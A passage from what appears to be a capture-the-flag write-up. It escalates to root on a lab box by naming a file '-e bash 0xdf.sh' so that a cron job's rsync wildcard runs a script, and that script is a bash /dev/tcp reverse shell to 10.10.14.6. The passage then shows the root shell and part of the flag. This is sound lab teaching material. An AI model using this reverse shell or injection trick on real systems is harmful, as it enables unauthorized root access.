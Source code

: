 
    $ rsync -e sh PATH_TO_SCRIPT SRC DEST



So if I can create a file named `-e bash rev.sh`, the wildcard will
inject into the command, and my command will run.

#### Reverse Shell

To pull this off, I'll create two files. The first is a simple reverse
shell generated with this `echo` command:



    echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh



The second is an empty file, where the filename is the important part,
generated with `touch`:



    touch -- '-e bash 0xdf.sh'



`--` tells the command that anything after is not an argument, so it
creates that file name.

Putting that all on one line and running it creates both files:



    editor@phoenix:/backups$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh; touch -- '-e bash 0xdf.sh'
    editor@phoenix:/backups$ ls -la
    total 3632
    drwxr-x---  2 editor editor   4096 Feb 16 23:02  .
    drwxr-xr-x 21 root   root     4096 Jan 26 05:29  ..
    -rw-rw-r--  1 editor editor     53 Feb 16 23:02  .0xdf.sh
    -rw-rw-r--  1 editor editor      0 Feb 16 23:02 '-e bash .0xdf.sh'
    ...[snip]...



The next time the cron runs (every three minutes), I get a reverse
shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.149 35844
    bash: cannot set terminal process group (3403): Inappropriate ioctl for device
    bash: no job control in this shell
    root@phoenix:/backups#



And after a quick shell upgrade, I can grab `root.txt`:



    root@phoenix:~# cat root.txt
    5047bc59************************
